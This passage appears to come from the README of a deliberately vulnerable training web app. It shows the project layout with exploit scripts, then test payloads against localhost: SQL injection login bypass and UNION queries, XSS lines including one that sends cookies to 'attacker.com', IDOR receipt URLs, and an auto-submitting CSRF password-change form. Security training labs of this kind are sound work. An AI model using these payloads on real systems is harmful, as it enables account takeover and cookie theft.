 ```
│   ├── receipt.html             # Receipt viewer (IDOR)
│   ├── change_password.html     # Password change (CSRF)
│   ├── ssti_form.html           # Template injection testing
│   ├── file_viewer.html         # File viewer (LFI)
│   └── admin.html               # Admin panel (broken auth)
├── exploits/                     # Exploitation scripts
│   ├── sqli_exploit.py          # SQL injection tester
│   ├── idor_exploit.py          # IDOR enumeration
│   ├── csrf_exploit.py          # CSRF attack generator
│   ├── directory_traversal_exploit.py # LFI tester
│   └── csrf_demo.html           # Interactive CSRF demo
├── test_all_vulnerabilities.py   # Comprehensive security test
└── uploads/                      # File upload directory
```

## 🧪 Testing Scenarios

### 1. **SQL Injection (Critical)**
```bash
# Login bypass
Username: ' OR '1'='1' --
Password: anything

# Union-based injection
Username: ' UNION SELECT 1,username,password,4,5 FROM users --
```

### 2. **Cross-Site Scripting**
```html
<!-- In product comments -->
<script>alert('XSS')</script>
<img src=x onerror=alert('Cookie: '+document.cookie)>
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
```

### 3. **IDOR (Insecure Direct Object References)**
```bash
# Access other users' receipts
http://localhost:5001/receipt/1
http://localhost:5001/receipt/2
http://localhost:5001/receipt/3
# Run: python exploits/idor_exploit.py
```

### 4. **CSRF (Cross-Site Request Forgery)**
```html
<!-- Host this on different domain -->
<form action="http://localhost:5001/change_password" method="post">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="submit" value="Click me!">
</form>
<script>document.forms[0].submit();</script>
```
